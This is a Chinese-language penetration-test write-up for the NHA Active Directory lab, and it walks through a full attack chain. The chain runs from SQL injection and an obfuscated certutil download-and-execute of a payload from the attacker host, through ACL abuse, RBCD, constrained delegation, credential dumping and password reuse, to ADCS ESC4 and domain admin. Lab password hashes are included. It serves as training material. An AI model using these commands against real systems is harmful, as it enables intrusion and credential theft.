# 域渗透——NHA（NINJA HACKER ACADEMY）记录-先知社区

> **来源**: https://xz.aliyun.com/news/19251  
> **文章ID**: 19251

---

BloodHound 5月的更新中优化了关于跨域攻击的路径绘制，详情可以查看：[Good Fences Make Good Neighbors: New AD Trusts Attack Paths in BloodHound - SpecterOps](https://specterops.io/blog/2025/06/25/good-fences-make-good-neighbors-new-ad-trusts-attack-paths-in-bloodhound/)

找个靶场来测试下BH跨域攻击的变化，之前搭过GOAD，NHA的搭建还是非常方便的：[NHA - Game Of Active Directory](https://orange-cyberdefense.github.io/GOAD/labs/NHA/)

# 资产探测

## 主机&端口

简单扫描一下，共2个域5台主机

除Windows常规端口外有一个80端口和一个1433端口

```
dc-vil.ninja.hack
192.168.56.10

dc-ac.academy.ninja.lan
192.168.56.20

web.academy.ninja.lan
192.168.56.21
192.168.56.21:80

sql.academy.ninja.lan
192.168.56.22
192.168.56.22:1433

share.academy.ninja.lan
192.168.56.23
```



访问80，可以获取到2个教师姓名、若干学生姓名，以及2种域用户的用户名格式

`fullname@ninja.hack`、`firstname@academy.ninja.lan`





## 用户

可以验证下用户名是否存在，得到以下有效用户

```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='ninja.hack',userdb=fullname.txt" 192.168.56.10

nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='academy.ninja.lan',userdb=firstname.txt" 192.168.56.20

olivia.davis@ninja.hack
frank.umino@ninja.hack

olivia@academy.ninja.lan
frank@academy.ninja.lan
Zane@academy.ninja.lan
Lee@academy.ninja.lan
Samuel@academy.ninja.lan
Ethan@academy.ninja.lan
Willa@academy.ninja.lan
Sophia@academy.ninja.lan
Noah@academy.ninja.lan
Victor@academy.ninja.lan
Charlie@academy.ninja.lan
Scott@academy.ninja.lan
Taylor@academy.ninja.lan
Isabella@academy.ninja.lan
```


# ACADEMY.NINJA.LAN

## SQL$

### SQL注入

在搜索处存在SQL注入

```
http://192.168.56.21/Students?SearchString=Davis&orderBy=Firstname
```





—os-shell执行命令，盲注回显很慢，应该是有defender，命令混淆一下即可上线

```
sqlmap -u http://192.168.56.21/Students\?SearchString\=Noah\&orderBy\=Firstname --time-sec=1 --os-shell

cert^u^t^il -url""""cache -sp""""lit -f http://192.168.56.1:8099/1.exe C:\Windows\Microsoft.NET\Framework64\1.exe

cmd /c C:\Users\Public\1.exe
```



### SQL$

上线之后是service权限，利用potato提权至system



### flag-1



抓密码，获取SQL$权限

```
netexec ldap 192.168.56.20 -d academy.ninja.lan -u SQL$ -H '7af026b9ea964099d7745356b0399c77'
```



## BloodHound

有了第一个域账号之后就可以用BloodHound分析可用的攻击路径了，已知有两个域，内存加载SharpHound时加上`--searchforest true --recursedomains true`参数，可以收集跨域的信息

```
beacon> execute-assembly /sharphound-v2.7.1/SharpHound.exe -c all --searchforest true --recursedomains true
```



看一下如何从SQL$获取域管理员权限，后面基本是按照BloodHound的思路进行的



## WEB$

### GenericALL on WEB$

确认一下`SQL$`对`WEB$`的权限

```
dacledit.py ACADEMY.NINJA.LAN/SQL$ -hashes :7af026b9ea964099d7745356b0399c77 -dc-ip 192.168.56.20 -principal 'SQL$' -target-dn 'CN=CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN,CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN' -action read

dacledit.py ACADEMY.NINJA.LAN/SQL$ -hashes :7af026b9ea964099d7745356b0399c77 -dc-ip 192.168.56.20 -principal 'SQL$' -target-dn 'CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN' -action read
```

对`CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN`有权限，但是对`WEB$`没有，因为权限没有继承下去



使用`-inheritance`让`WEB$`继承`CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN`的ACE，这样`SQL$`就具备对`WEB$`的权限了

```
#继承ACE
dacledit.py ACADEMY.NINJA.LAN/SQL$ -hashes :7af026b9ea964099d7745356b0399c77 -dc-ip 192.168.56.20 -principal 'SQL$' -target-dn 'CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN' -action write -rights FullControl -inheritance

#查询
dacledit.py ACADEMY.NINJA.LAN/SQL$ -hashes :7af026b9ea964099d7745356b0399c77 -dc-ip 192.168.56.20 -principal 'SQL$' -target-dn 'CN=WEB,CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN' -action read
```



### 利用RBCD获取机器权限

获得WEB$的控制权后，可以利用基于资源的约束委派来获取机器权限

```
#查询
rbcd.py -delegate-to 'web$' -dc-ip '192.168.56.20' -action 'read' 'ACADEMY.NINJA.LAN'/'SQL$' -hashes :7af026b9ea964099d7745356b0399c77

#写入RBCD属性
rbcd.py -delegate-from 'SQL$' -delegate-to 'web$' -dc-ip '192.168.56.20' -action 'write' 'ACADEMY.NINJA.LAN'/'SQL$' -hashes :7af026b9ea964099d7745356b0399c77
```



利用RBCD，生成Administrator的TGT来访问WEB$

```
getST.py -spn 'HOST/WEB.ACADEMY.NINJA.LAN' -impersonate Administrator -dc-ip '192.168.56.20' 'ACADEMY.NINJA.LAN'/'SQL$' -hashes :7af026b9ea964099d7745356b0399c77
```

PTT

```
export KRB5CCNAME=./Administrator@HOST_WEB.ACADEMY.NINJA.LAN@ACADEMY.NINJA.LAN.ccache
netexec smb web.academy.ninja.lan --use-kcache -x whoami
```

获取frank、WEB$凭据，frank的hash可以通过logonpasswords获取

```
frank
d4fad93561dee253398d5891e991a6fb

WEB$
64673c2e0bc0b24d3fc63dfcdb414379
```





### flag-2



## SHARE$

### 约束委派 on SHARE$

查看当前的委派，可以看到frank是可以对SHARE$进行约束委派的

```
findDelegation.py -hashes :d4fad93561dee253398d5891e991a6fb 'academy.ninja.lan/frank' -dc-ip 192.168.56.20
```

利用约束委派获取ST后进行PTT

```
getST.py -spn 'eventlog/share' -altservice 'CIFS/share.academy.ninja.lan' -impersonate 'administrator' -hashes :d4fad93561dee253398d5891e991a6fb 'academy.ninja.lan/frank' -dc-ip 192.168.56.20

export KRB5CCNAME=./administrator@CIFS_share.academy.ninja.lan@ACADEMY.NINJA.LAN.ccache

netexec smb share.academy.ninja.lan --use-kcache
```



### flag-3



## DC-AC$

### ReadGMSAPassword on GMSANFS$

通过lsa dump获取到GMSANFS$的密码

```
netexec smb share.academy.ninja.lan --use-kcache --lsa
#GMSANFS$
#98fcf0a1913d8a0c79159a690de54861
```



### **ForceChangePassword on** BACKUP

利用gmsaNFS$强制修改BACKUP的密码

```
net rpc password "BACKUP" "1qaz@WSX" -U "academy.ninja.lan"/"gmsaNFS$"%98fcf0a1913d8a0c79159a690de54861 --pw-nt-hash -S "192.168.56.20"

netexec ldap 192.168.56.20 -d academy.ninja.lan -u BACKUP -p '1qaz@WSX'
```



### WriteOwner on ADMINISTRATORS

BACKUP的权限很大，可以直接往管理员组中加用户

```
#查看BACKUP对ADMINISTRATORS的权限
dacledit.py ACADEMY.NINJA.LAN/BACKUP:'1qaz@WSX' -dc-ip 192.168.56.20 -principal 'BACKUP' -target-dn 'CN=ADMINISTRATORS,CN=BUILTIN,DC=ACADEMY,DC=NINJA,DC=LAN' -action read

#将所有者改为BACKUP自身
owneredit.py ACADEMY.NINJA.LAN/BACKUP:'1qaz@WSX' -dc-ip 192.168.56.20 -action write -new-owner 'BACKUP' -target-dn 'CN=ADMINISTRATORS,CN=BUILTIN,DC=ACADEMY,DC=NINJA,DC=LAN'

#获取完全控制
dacledit.py ACADEMY.NINJA.LAN/BACKUP:'1qaz@WSX' -dc-ip 192.168.56.20 -principal 'BACKUP' -target-dn 'CN=ADMINISTRATORS,CN=BUILTIN,DC=ACADEMY,DC=NINJA,DC=LAN' -action write
```



将frank加入到管理员组中

```
net rpc group addmem administrators frank -U "academy.ninja.lan"/'BACKUP'%'1qaz@WSX' -S "192.168.56.20"

netexec ldap 192.168.56.20 -d academy.ninja.lan -u frank -H d4fad93561dee253398d5891e991a6fb
```



### flag-4



# NINJA.HACK

## BloodHound

BloodHound更新中引入的`SpoofSIDHistory`和`AbuseTGTDelegation`在这里都没有看到，查看CrossForestTrust可以看到`SID History Blocked`为True、`TGT Delegation`为false，所以这两种方法都不能用来跨域攻击，只能尝试其他方法



单独看NINJA.HACK域，会发现一条由OLIVIA.DAVIS到NINJA.HACK的路径



而OLIVIA.DAVIS正是之前web页面中同处两个域的用户之一


## DC-VIL

### OLIVIA.DAVIS

先获取academy.ninja.lan域中OLIVIA的hash

```
netexec smb 192.168.56.20 -d academy.ninja.lan -u frank -H d4fad93561dee253398d5891e991a6fb --ntds --user OLIVIA

#OLIVIA
#91d85135bb2c4e12c46efbb77612c487
```



密码复用，两个域用的是同一个密码

```
netexec ldap 192.168.56.10 -d ninja.hack -u OLIVIA.DAVIS -H 91d85135bb2c4e12c46efbb77612c487 -M whoami
```



### WriteDacl on RACHEL.PHILIPS

利用WriteDacl获取RACHEL.PHILIPS的完全控制

```
dacledit.py ninja.hack/olivia.davis -hashes :91d85135bb2c4e12c46efbb77612c487 -dc-ip 192.168.56.10 -principal 'olivia.davis' -target-dn 'CN=RACHEL.PHILIPS,CN=USERS,DC=NINJA,DC=HACK' -action read

dacledit.py ninja.hack/olivia.davis -hashes :91d85135bb2c4e12c46efbb77612c487 -dc-ip 192.168.56.10 -principal 'olivia.davis' -target-dn 'CN=RACHEL.PHILIPS,CN=USERS,DC=NINJA,DC=HACK' -action write
```



### Shadow Credential

域内是存在证书服务的，所以可以直接用Shadow Credential来获取rachel.philips的hash

```
certipy shadow auto -u olivia.davis@ninja.hack -hashes 91d85135bb2c4e12c46efbb77612c487 -account 'RACHEL.PHILIPS' -ns 192.168.56.10 -dns-tcp
#rachel.philips
#9755a3421982f684f66d411f661da264
```



### GenericAll on JONIN

和之前权限继承的问题类似，这里sanin对JONIN有权限，但rachel.philips对JONIN没权限

```
dacledit.py ninja.hack/rachel.philips -hashes :9755a3421982f684f66d411f661da264 -dc-ip 192.168.56.10 -principal 'sanin' -target-dn 'CN=JONIN,CN=USERS,DC=NINJA,DC=HACK' -action read

dacledit.py ninja.hack/rachel.philips -hashes :9755a3421982f684f66d411f661da264 -dc-ip 192.168.56.10 -principal 'rachel.philips' -target-dn 'CN=JONIN,CN=USERS,DC=NINJA,DC=HACK' -action read
```



获取JONIN控制权

```
dacledit.py ninja.hack/rachel.philips -hashes :9755a3421982f684f66d411f661da264 -dc-ip 192.168.56.10 -principal 'rachel.philips' -target-dn 'CN=JONIN,CN=USERS,DC=NINJA,DC=HACK' -action write -inheritance
```

这里改完rachel.philips对JONIN具备了权限，但rachel.philips对JONIN的成员YARA.YUHI仍然没有权限



换个思路，将rachel.philips加入到JONIN中

```
net rpc group addmem JONIN rachel.philips -U "ninja.hack"/'rachel.philips'%'9755a3421982f684f66d411f661da264' --pw-nt-hash -S "192.168.56.10"

netexec ldap 192.168.56.10 -d ninja.hack -u rachel.philips -H 9755a3421982f684f66d411f661da264 -M whoami
```



### ADCS-ESC4

按照BloodHound的提示，JONIN的成员实施ESC4攻击

```
certipy find -u rachel.philips -hashes 9755a3421982f684f66d411f661da264 -dc-ip 192.168.56.10 -ns 192.168.56.10 -dns-tcp -stdout -vulnerable
```



利用ESC4获取administrator的证书

```
certipy template -u rachel.philips@ninja.hack -hashes 9755a3421982f684f66d411f661da264 -target 192.168.56.10 -template SignatureValidation -write-default-configuration

certipy req -u rachel.philips@ninja.hack -hashes 9755a3421982f684f66d411f661da264 -target 192.168.56.10 -template SignatureValidation -ca NINJA-CA -upn administrator@ninja.hack
```



认证获取域管理员权限

```
#认证报错Object SID mismatch between certificate and user 'administrator'
#看一下issue加上sid，https://github.com/ly4k/Certipy/issues/208
certipy req -u rachel.philips@ninja.hack -hashes 9755a3421982f684f66d411f661da264 -target 192.168.56.10 -template SignatureValidation -ca NINJA-CA -upn administrator@ninja.hack -sid S-1-5-21-263776687-2498064366-1036795862-500

certipy auth -pfx administrator.pfx -dc-ip 192.168.56.10 -domain ninja.hack
#administrator
#26777fdb79382484117ccfda940eca82
```



### flag-5



# END

5台机器均完成控制，按照BloodHound的攻击路径的话思路还是比较清晰的。


